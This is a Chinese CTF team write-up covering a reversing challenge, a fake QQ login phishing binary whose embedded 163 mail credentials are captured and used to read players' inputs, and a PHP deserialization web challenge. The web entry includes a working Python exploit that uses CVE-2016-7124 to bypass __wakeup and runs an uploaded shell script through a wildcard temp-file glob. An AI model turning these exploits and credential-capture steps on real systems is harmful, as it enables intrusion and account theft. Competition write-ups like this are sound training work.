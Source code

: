```yaml
---
team: H3x
members:
    - cor1e
    - eqqie
    - blackwatch
---
```


## REVERSE

### easyre | Author: eqqie

题目很简单，不用理会前面混淆的部分，patch掉for循环里面的if，然后下断，直接看内存就会有flag一个一个字母蹦出来。

### EPL-Fish | Author: eqqie

这是个逆向+MISC，因为初中经常玩易语言，所以对这个易语言出的题比较敏感于是拿了一血。

题目是个模拟QQ的登陆界面（搞得挺像的），但是无论输入什么都提示一样的错误，应该是写死的。这种题动态调试很麻烦...但是调试了一下还是有收获，看到一个类似邮箱和密码的东西，是个163邮箱。于是我马上想到了初中玩过的一种上古盗号方法，就是把输入框的内容作为邮件发送给盗号者。

于是抓包，马上就抓到了邮箱的账号和密钥，去163登录了一下发现登不上，推测这可能不是邮箱密码，而是安全码，可以用于telnet登录smtp和pop发送接收邮件。于是telnet登上去试试果真可以发邮件，然后pop登陆上去，可以看到所有写题的人输入的内容（没注意看有没有人 真的输了账号密码）。

邮件列表中有一个很大的邮件，把内容（base64编码过的）copy下来，有两部分，正文提示附件中有一个文件可以帮助解题。于是python decode拿到附件，是题目源码。

最后的最后找了一大圈....flag居然在源码的注释里面。

## WEB

### P| Author: blackwatch

发现将cookie两部处理后传入file，将cookie里的gitbase64decode一下

`O:5:"gitee":1:{s:4:"file";s:9:"index.php";}`

改成`O:5:"gitee":1:{s:4:"file";s:11:"classes.php";}`

最后的__wakeup魔术方法可以用php反序列化的CVE-2016-7124绕过。看github，是要传参cmd执行，但是过滤了一大堆东西，发现preg_match里唯独保留了P，此题题目也是P，想到看过的一篇文章，利用执行上传的临时文件tmp/phpXXXXXX，原文地址https://www.anquanke.com/post/id/201136

exp:

```python
import requests
import base64

url =''
git = 'O:6:"github":3:{s:4:"file";s:9:"index.php";s:3:"cmd";s:26:"?><?=`. /??p/p?p??????`;?>";}'#反引号不输出，用<?=代替<?php echo输出
git = base64.b64encode(git.encode()).decode()
cookies = {'git': git}
files = {'file': '#!/bin/sh\ncat /* | grep minil'}
a = requests.post(url, files=files, cookies=cookies)
print(a.text)
```
